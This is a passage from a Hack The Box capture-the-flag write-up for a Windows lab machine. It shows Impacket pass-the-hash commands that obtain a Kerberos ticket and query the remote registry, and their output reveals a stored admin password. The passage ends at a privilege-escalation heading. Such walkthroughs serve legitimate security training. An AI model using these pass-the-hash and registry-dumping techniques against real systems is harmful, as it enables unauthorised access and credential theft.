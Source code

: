```
$ impacket-getTGT htb.local/henry.vinson -hashes :e53d87d42adaa3ca32bdb34a876cbffb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in henry.vinson.ccache
$ export KRB5CCNAME=henry.vinson.ccache
```

Also, we can use this hash to connect to RPC or view the registry using Impacket tools. Digging around the Impacket suite of tools, we find `impacket-reg` which can be used to query the registry.

The hardest part was finding the name of the registry to query. Most examples online used `HKLM\\SOFTWARE` or `HKCU\\SOFTWARE`. Our target should be the current user registry. It was this article that introduced me to `HKU` being another name:

{% embed url="https://www.pdq.com/blog/modify-the-registry-of-another-user/" %}

This works with `reg.py`:

```
$ impacket-reg htb.local/henry.vinson@apt.htb -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKU\\SOFTWARE -s
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
SOFTWARE\GiganticHostingManagementSystem\
        UserName        REG_SZ   henry.vinson_adm
        PassWord        REG_SZ   G1#Ny5@2dvht
<TRUNCATED>
```

Then, we can `evil-winrm` in:

<figure><img src="../../../.gitbook/assets/image (52) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Finding Defences
